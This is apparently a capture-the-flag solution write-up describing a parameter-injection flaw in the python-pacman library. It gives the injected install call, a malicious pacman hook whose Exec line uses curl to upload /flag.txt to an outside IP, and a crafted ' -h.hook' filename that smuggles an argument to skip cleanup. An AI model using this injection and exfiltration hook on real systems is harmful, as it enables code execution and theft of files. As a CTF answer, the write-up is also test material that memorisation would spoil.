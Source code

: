 # spoiler: this is the solution

# 0day in python-pacman (allows parameter injection)

- exploit code is: pacman.install(["--hookdir", "/tmp/pacman/", "wget"])
- we can use json to put a list into the install function instead of a string (string is not vuln)
- pacman hook looks like this

```
[Trigger]
Operation = Upgrade
Operation = Install
Operation = Remove
Type = Package
Target = *

[Action]
Description = Cleaning pacman cache...
When = PostTransaction
Exec = /bin/bash -c "curl --upload-file /flag.txt http://192.168.178.200:4444"
```

- we need to write a file to the directory (therefore I added /check)
- we need to throw an exception in check_output so that the remove() does not get called
- therefore we use ' -h.hook' as filename (calls --help and returns 2)
- hook files must end with .hook. The hook will only be executed if something will be installed (check if it's not already installed!)
- checkout exploit.py


